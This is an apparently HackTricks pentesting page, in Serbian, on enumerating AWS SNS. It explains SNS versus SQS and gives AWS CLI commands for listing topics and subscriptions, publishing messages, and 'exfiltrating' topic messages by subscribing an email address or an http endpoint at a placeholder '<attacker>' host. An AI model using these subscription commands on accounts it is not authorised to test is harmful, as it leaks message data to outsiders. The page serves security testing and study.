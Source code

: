 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) se opisuje kao **potpuno upravljana usluga za razmenu poruka**. Podržava i **komunikacione tipove između aplikacija** (A2A) i **komunikacione tipove između aplikacije i osobe** (A2P).

Ključne karakteristike za A2A komunikaciju uključuju **mehanizme objavljivanja/pretplate (pub/sub)**. Ovi mehanizmi uvode **teme**, koje su ključne za omogućavanje visoke propusnosti, **push-bazirane, mnoge-na-mnoge razmene poruka**. Ova funkcija je veoma korisna u scenarijima koji uključuju distribuirane sisteme, mikroservise i arhitekture bez servera zasnovane na događajima. Korišćenjem ovih tema, sistemi za objavljivanje mogu efikasno distribuirati poruke širokom spektru sistema za pretplatu, olakšavajući obrazac razmene poruka.

### **Razlika sa SQS**

**SQS** je **usluga zasnovana na redovima** koja omogućava komunikaciju tačka-tačka, osiguravajući da poruke obrađuje **jedan potrošač**. Nudi **isporuku najmanje jednom**, podržava standardne i FIFO redove, i omogućava zadržavanje poruka za ponovne pokušaje i odloženu obradu.\
S druge strane, **SNS** je **usluga zasnovana na objavljivanju/pretplati**, koja omogućava **jedan-na-mnoge** komunikaciju emitovanjem poruka **više pretplatnika** istovremeno. Podržava **različite tačke pretplate kao što su email, SMS, Lambda funkcije i HTTP/HTTPS**, i pruža mehanizme filtriranja za ciljanje isporuke poruka.\
Dok obe usluge omogućavaju odvajanje između komponenti u distribuiranim sistemima, SQS se fokusira na komunikaciju putem redova, dok SNS naglašava komunikacione obrasce zasnovane na događajima i širenju. 

### **Enumeracija**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Imajte na umu da ako je **tema tipa FIFO**, mogu se koristiti samo pretplatnici koji koriste protokol **SQS** (HTTP ili HTTPS ne mogu se koristiti).
>
> Takođe, čak i ako `--topic-arn` sadrži region, obavezno navedite tačan region u **`--region`** ili ćete dobiti grešku koja izgleda kao da nemate pristup, ali je problem u regionu.

#### Neautorizovani Pristup

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Eskalacija Privilegija

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Post Eksploatacija

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Postojanost

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Reference

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
